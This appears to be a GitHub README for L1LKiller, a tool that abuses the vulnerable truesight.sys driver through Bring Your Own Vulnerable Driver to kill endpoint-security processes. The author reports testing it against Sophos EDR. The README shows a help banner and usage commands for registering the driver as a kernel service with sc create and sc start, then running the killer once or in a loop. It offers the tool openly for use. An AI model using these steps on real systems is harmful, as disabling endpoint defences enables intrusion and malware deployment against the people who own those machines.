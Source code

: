<h1 align="center">「⚠️」 About L1LKiller</h1>

L1LKiller is a tool developed to exploit the `truesight.sys` driver of the Rogue Anti-Malware Driver 3.3 software through the BYOVD (Bring Your Own Vulnerable Driver) technique. About 1 year ago this vulnerability was fixed and currently the driver is present in [LOLDrivers](https://www.loldrivers.io/drivers/e0e93453-1007-4799-ad02-9b461b7e0398/) (Living Off The Land Drivers). I developed this project at the time of the release of the discovery of this driver, where I was able to successfully perform the test on Sophos EDR. Since there is already a mitigation, I decided to publish this project that I kept private for a while.

## Demonstration

https://github.com/user-attachments/assets/e9ec29cb-6869-44c2-8649-0a545c30d2e9

## Help

```
      __   _____    __ __ _ ____
     / /  <  / /   / //_/(_) / /__  _____
    / /   / / /   / ,<  / / / / _ \/ ___/
   / /___/ / /___/ /| |/ / / /  __/ /
  /_____/_/_____/_/ |_/_/_/_/\___/_/

            [Coded by MrEmpy]
                 [v1.0]

Usage: C:\Windows\Temp\L1LKiller\L1LKiller.exe [OPTIONS]
    Options:
      single,                   kill processes only once
      loop,                     kill processes in a loop

    Examples:
      L1LKiller.exe single
      L1LKiller.exe loop
```

## Usage
```
sc create l1lkiller binPath="C:\Windows\Temp\L1LKiller\L1LKiller.sys" type=kernel
sc start l1lkiller
.\L1LKiller.exe single
```
